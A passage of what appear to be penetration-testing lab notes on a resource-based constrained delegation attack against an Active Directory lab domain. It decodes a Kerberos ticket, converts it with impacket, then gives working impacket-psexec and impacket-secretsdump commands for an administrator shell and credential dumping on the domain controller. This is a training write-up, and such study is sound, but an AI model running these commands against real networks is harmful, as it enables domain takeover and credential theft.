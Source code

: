 ![Untitled](Bloodhound%20Privesc%20dd6fade960264426a07c9c342c846f05/Untitled%203.png)

format it in a file so that it is all in one line without spaces (use `%j` in vim to put it all on one line). Then base64 decode this file.

![Untitled](Bloodhound%20Privesc%20dd6fade960264426a07c9c342c846f05/Untitled%204.png)

Convert it to `ccache` format with ticketconverter from impacket. Finally, PsExec into the machine as administrator.

```bash
impacket-ticketConverter ticket.kirbi ticket.ccache
export KRB5CCNAME=`pwd`/ticket.ccache
impacket-psexec -dc-ip 192.168.141.175 resourced.local/administrator@resourcedc.resourced.local -k -no-pass
	# you can also do secrets dump to PTH with the admin hash if psexec isn't working
impacket-secretsdump -k -no-pass -dc-ip 192.168.141.175 resourced.local/administrator@resourcedc.resourced.local 
```

See this video for a walkthrough: [https://youtu.be/xMTCZt5DRB0](https://youtu.be/xMTCZt5DRB0)

See this blog to get more info on pass the ticket: [https://pythonforcybersecurity.com/lessons/lab-1lateral-movement-pass-the-ticket-attack/](https://pythonforcybersecurity.com/lessons/lab-1lateral-movement-pass-the-ticket-attack/)

### Method 2 of resource-based constrained delegation
